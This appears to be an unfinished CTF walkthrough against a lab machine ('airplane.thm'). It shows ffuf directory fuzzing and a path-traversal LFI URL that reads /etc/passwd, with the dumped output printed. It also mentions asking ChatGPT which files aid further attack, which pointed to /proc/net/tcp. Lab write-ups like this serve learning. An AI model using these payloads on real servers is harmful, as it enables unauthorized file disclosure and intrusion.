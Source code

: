 - i visited the web page `10.10.98.212:8000` and the ip got converted into `FQDN`
- then i added it to my `etc/hosts`

![](https://i.imgur.com/SBFbnqC.png)


- after adding to my `hosts` i reloaded the page:

![](https://i.imgur.com/fGI7Kbo.jpeg)

- i FUZZ for hidden Directories but the result found is useless:

```bash
❯ ffuf -u http://airplane.thm:8000/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![](https://i.imgur.com/O7p3MEV.png)

![](https://i.imgur.com/DViHnbI.png)

- then  i tried manual `LFI` to get the `passwd` file from the server:
```
http://airplane.thm:8000/?page=../../../../etc/passwd 
```

![](https://i.imgur.com/jzAn2vl.jpeg)

![](https://i.imgur.com/eIoI1Lm.png)

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

------------------SNIP---------------------------------

carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
hudson:x:1001:1001::/home/hudson:/bin/bash
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
```

- so now i have a way to read files from the server, now i need to find files to read that will give me information more about the server:
- so i ask `chatgpt` what file can be valuable for more network attack and part of his out put is the `/proc/net/tcp` file

### Understanding `/proc/net/tcp`

The `/proc/net/tcp` file contains information about the TCP connections. Each line corresponds to a network connection and includes details like the local address, remote address, and the connection state.

- let read it :

![](https://i.imgur.com/XbpjxRv.png)
